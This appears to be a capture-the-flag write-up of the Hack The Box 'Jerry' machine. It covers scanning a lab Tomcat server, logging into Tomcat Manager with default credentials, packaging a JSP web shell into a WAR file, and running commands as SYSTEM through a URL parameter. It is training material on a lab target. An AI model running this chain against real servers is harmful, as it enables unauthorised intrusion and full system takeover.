








## 📌 Overview

Jerry is an easy Windows machine focused on web exploitation. An Apache Tomcat service running on port 8080 was discovered, and access to the Tomcat Manager was gained using default credentials. A custom WAR file containing a JSP web shell was deployed, leading to remote command execution. Since Tomcat runs with SYSTEM privileges, this resulted in immediate full system access without the need for privilege escalation.


## 🎯 Objective

Gain access to the target machine and obtain **NT AUTHORITY\SYSTEM** privileges.

---

# 🛠 Tools Used

| Category         | Tool           | Usage                                        |
| ---------------- | -------------- | -------------------------------------------- |
| Enumeration      | Nmap           | Identified open port 8080 and Tomcat service |
| Web Access       | Browser        | Accessed Tomcat interface                    |
| Exploitation     | Tomcat Manager | Uploaded WAR payload                         |
| Payload Creation | jar            | Built custom WAR file                        |
| Execution        | JSP Web Shell  | Executed system commands                     |
| Environment      | Kali Linux     | Attack machine                               |

---


# 🔍 1. Enumeration

## 🔎 Nmap Scan

```bash
nmap -sC -sV 10.129.136.9
```

### 📸 Evidence




---

## 🧠 Analysis

* Only **port 8080** is open
* Service identified as **Apache Tomcat 7.0.88**
* Indicates a **web attack surface**

---

# 🌐 2. Web Enumeration

Visited:

```
http://10.129.136.9:8080
```

### 📸 Evidence



---

## 🔍 Discovery

Found Tomcat Manager:

```
/manager/html
```

---

# 🔑 3. Initial Access

## 🔐 Default Credentials

```
tomcat : s3cret
```

✅ Successfully logged into **Tomcat Manager**

---

### 📸 Evidence



---

# 💣 4. Exploitation (Custom WAR Deployment)

## 🛠 Create Custom JSP Web Shell

Instead of using msfvenom, a custom JSP web shell was created:

```bash
rm -rf webshell
mkdir webshell
cp cmd.jsp webshell/
cd webshell
jar -cvf fixed.war *
```

---

### 📸 Evidence



---

## 📦 Upload WAR File

* Uploaded `fixed.war` via Tomcat Manager
* Deployment successful

---

### 📸 Evidence



---

## 🌐 Access Application

```
http://10.129.136.9:8080/fixed/
```

---

# ⚙️ 5. Remote Code Execution

Execute command via web shell:

```
http://10.129.136.9:8080/fixed/cmd.jsp?cmd=whoami
```

---

## ✅ Output

```
nt authority\system
```

---

### 📸 Evidence



---

# 🧠 6. Analysis

* Tomcat runs with **SYSTEM privileges**
* WAR deployment gives **instant RCE**
* No privilege escalation required

---

# ⚠️ Challenges Faced

* URL encoding issues (`%20`, quotes)
* Spaces in commands
* Browser breaking long commands
* JSP shell limitations

---

## 🧠 Resolution

* Used **simple commands**
* Avoided chaining (`&&`, `>`)
* Used `cmd /c` when needed
* Tested commands step-by-step

---

# 🎯 Key Takeaways

* Default credentials = critical vulnerability
* Tomcat Manager → WAR upload = **RCE**
* Custom JSP shell is more reliable than msfvenom
* Encoding issues can break exploitation

---

# 🧠 Lessons Learned

* Always check:

  * `/manager/html`
  * Default credentials
* Understand:

  * Web shell vs reverse shell
* Debugging is part of exploitation

---

# 📌 Conclusion

Successfully:

* Enumerated the target
* Identified Apache Tomcat
* Used default credentials
* Built custom WAR payload
* Achieved **NT AUTHORITY\SYSTEM**

---
This work is part of FuzzRaiders’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---



